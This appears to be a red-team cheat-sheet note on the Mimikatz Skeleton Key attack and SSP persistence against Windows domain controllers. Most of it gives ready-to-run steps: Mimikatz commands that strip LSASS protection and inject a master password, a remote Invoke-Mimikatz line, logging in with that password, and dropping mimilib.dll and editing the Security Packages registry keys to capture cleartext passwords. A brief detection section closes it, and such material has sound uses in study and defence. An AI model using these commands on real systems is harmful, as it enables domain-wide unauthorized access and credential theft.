

> [!abstract] Skeleton Key & SSP Persistence (Mimikatz)
> The **Skeleton Key** attack is a sophisticated persistence technique where an attacker patches the **LSASS (Local Security Authority Subsystem Service)** process in memory on a Domain Controller. This patch injects a master password (`mimikatz`) that can be used to authenticate as *any* user in the domain, while allowing users to continue using their normal passwords. For deeper persistence, attackers can also register a malicious Security Support Provider (SSP) DLL (`mimilib.dll`).
> **MITRE ATT&CK Mapping:** [T1556.001 - Modify Authentication Process: Domain Controller Authentication](https://attack.mitre.org/techniques/T1556/001/) | [T1101 - Security Support Provider](https://attack.mitre.org/techniques/T1101/)

## Concept: How Skeleton Key Works

> [!info] The LSASS Patch
> When a user authenticates to a Domain Controller, LSASS processes the credentials via SSPs (like `Kerberos.dll` or `MSV1_0.dll`). 
> 
> The Skeleton Key attack (via `misc::skeleton`) patches the `NCryptVerifyClaims` and `SamIRPC` functions in LSASS memory. It injects a hook that checks: *"Is the provided password 'mimikatz'? If yes, grant access. If no, pass the request to the normal authentication process."* 
> 
> This allows the attacker to log in as any user (e.g., Domain Admin) using the password `mimikatz`, without disrupting normal user authentication.




## Attack Execution: In-Memory Skeleton Key

> [!warning] Prerequisites & OPSEC
> - **Privileges Required:** Domain Admin (DA) privileges are needed to patch the Domain Controller's LSASS.
> - **Noise Level:** This attack is **very noisy**. It involves loading a driver (`mimisrv.sys` or similar depending on the version) and directly patching live memory.
> - **Stability:** This in-memory patch is **not stable** on Windows Server 2016 and 2019, and may cause LSASS to crash (resulting in a reboot of the DC).

> [!danger]+ Mimikatz: Injecting the Skeleton Key
> Execute these commands directly on the Domain Controller, or remotely via PowerShell remoting.
> 
> **Local Execution on DC:**
> ```text
> mimikatz # privilege::debug
> mimikatz # !+
> mimikatz # !processprotect /process:lsass.exe /remove
> mimikatz # misc::skeleton
> mimikatz # !-
> ```
> 
> **Remote Execution via PowerShell:**
> ```powershell
> Invoke-mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName domaincontroller.adolf.local
> ```

> [!success]+ Accessing Machines with the Skeleton Key
> Once the Skeleton Key is injected, you can access any machine in the domain using a valid username and the password `mimikatz`.
> ```powershell
> # Example: Accessing the DC as Administrator using the Skeleton Key
> Enter-Pssession -ComputerName domaincontroller -Credential adolf\administrator
> # When prompted for password, type: mimikatz
> ```

---

## Persistence: SSP via `mimilib.dll`

> [!tip] Persistent SSP Backdoor
> Since the in-memory Skeleton Key is lost upon DC reboot, attackers use the `mimilib.dll` SSP for persistent credential capture. When registered as an SSP, `mimilib.dll` will intercept all cleartext passwords used to authenticate to the DC and log them to a file.

> [!example]+ Step 1: Drop the DLL
> Manually copy the compiled `mimilib.dll` to the Domain Controller.
> ```powershell
> # Copy mimilib.dll to the System32 directory of the DC
> Copy-Item mimilib.dll C:\Windows\System32\
> ```

> [!example]+ Step 2: Register the SSP in the Registry
> Add `mimilib` to the `Security Packages` registry key so LSASS loads it on boot.
> ```powershell
> # 1. Read the current Security Packages
> $pack = Get-ItemProperty hklm:\system\CurrentControlset\control\lsa\osconfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
> 
> # 2. Append 'mimilib' to the list
> $pack += "mimilib"
> 
> # 3. Update the OSConfig registry key
> Set-ItemProperty hklm:\system\CurrentControlset\control\lsa\osconfig\ -Name 'Security Packages' -Value $pack
> 
> # 4. Update the main LSA registry key
> Set-ItemProperty hklm:\system\CurrentControlset\control\lsa\ -Name 'Security Packages' -Value $pack
> ```

> [!bug]+ Step 3: Harvest Captured Credentials
> After a reboot (or LSASS restart), whenever a user authenticates to the DC, their cleartext password will be logged.
> 
> **Log File Location:**
> `C:\Windows\System32\kiwissp.log`

> [!warning] Defensive Detection
> 1. **Event ID 4662:** Look for unusual object access on the Domain Controller.
> 2. **LSASS Driver Loading:** Monitor for unsigned or malicious drivers being loaded into `lsass.exe` (which is required for the in-memory skeleton key).
> 3. **Registry Monitoring:** Alert on any modifications to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`. The presence of `mimilib` or other non-standard DLLs is a critical red flag.
> 4. **File Artifact:** The presence of `kiwissp.log` or `mimilsa.log` in `C:\Windows\System32` indicates active SSP credential harvesting.

